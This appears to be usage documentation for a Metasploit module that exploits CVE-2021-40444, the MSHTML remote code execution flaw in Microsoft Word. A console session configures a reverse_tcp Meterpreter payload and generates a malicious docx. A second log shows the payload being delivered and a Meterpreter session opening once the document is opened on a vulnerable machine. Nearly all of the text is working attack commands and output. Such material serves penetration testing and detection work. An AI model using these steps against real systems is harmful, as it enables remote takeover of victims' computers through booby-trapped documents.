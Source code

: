 1. Generate the exploit as following.

```
msf6 exploit(windows/fileformat/word_mshtml_rce) > use exploit/windows/fileformat/word_mshtml_rce
[*] Using configured payload windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/fileformat/word_mshtml_rce) > set SRVHOST 172.20.7.36
SRVHOST => 172.20.7.36
msf6 exploit(windows/fileformat/word_mshtml_rce) > set LHOST 172.20.7.36
LHOST => 172.20.7.36
msf6 exploit(windows/fileformat/word_mshtml_rce) > set VERBOSE true
VERBOSE => true
msf6 exploit(windows/fileformat/word_mshtml_rce) > run
[*] Using URL: http://172.20.7.36:8080/x58G8ZxLbZ
[*] Server started.
[*] CVE-2021-40444: Generate a malicious docx file
[*] Using template '/opt/metasploit/data/exploits/cve-2021-40444.docx'
[*] Parsing item from template: [Content_Types].xml
[*] Parsing item from template: _rels/
[*] Parsing item from template: _rels/.rels
[*] Parsing item from template: docProps/
[*] Parsing item from template: docProps/core.xml
[*] Parsing item from template: docProps/app.xml
[*] Parsing item from template: word/
[*] Parsing item from template: word/theme/
[*] Parsing item from template: word/theme/theme1.xml
[*] Parsing item from template: word/styles.xml
[*] Parsing item from template: word/settings.xml
[*] Parsing item from template: word/document.xml
[*] Parsing item from template: word/_rels/
[*] Parsing item from template: word/_rels/document.xml.rels
[*] Parsing item from template: word/fontTable.xml
[*] Parsing item from template: word/webSettings.xml
[*] Injecting payload in docx document
[*] Finalizing docx 'msf.docx'
[+] msf.docx stored at /home/mekhalleh/.msf4/local/msf.docx
```

2. Execute the DOCX document on a remote vulnerable system.

```
[*] 172.20.7.36      word_mshtml_rce - Sending HTML Payload
[*] 172.20.7.36      word_mshtml_rce - Obfuscate JavaScript content
[*] 172.20.7.36      word_mshtml_rce - Sending HTML Payload
[*] 172.20.7.36      word_mshtml_rce - Obfuscate JavaScript content
[*] 172.20.7.36      word_mshtml_rce - Sending HTML Payload
[*] 172.20.7.36      word_mshtml_rce - Obfuscate JavaScript content
[*] 172.20.7.36      word_mshtml_rce - Sending CAB Payload
[*] 172.20.7.36      word_mshtml_rce - Data block added w/ checksum: cc1d5e18
[*] 172.20.7.36      word_mshtml_rce - Data block added w/ checksum: 7e6fb805
[*] 172.20.7.36      word_mshtml_rce - Sending CAB Payload
[*] 172.20.7.36      word_mshtml_rce - Data block added w/ checksum: 620a35dd
[*] 172.20.7.36      word_mshtml_rce - Data block added w/ checksum: 7e6fb805
[*] Sending stage (200262 bytes) to 172.20.7.36
[*] Meterpreter session 1 opened (172.20.7.36:4444 -> 172.20.7.36:57920) at 2021-11-05 16:41:13 +0400
```
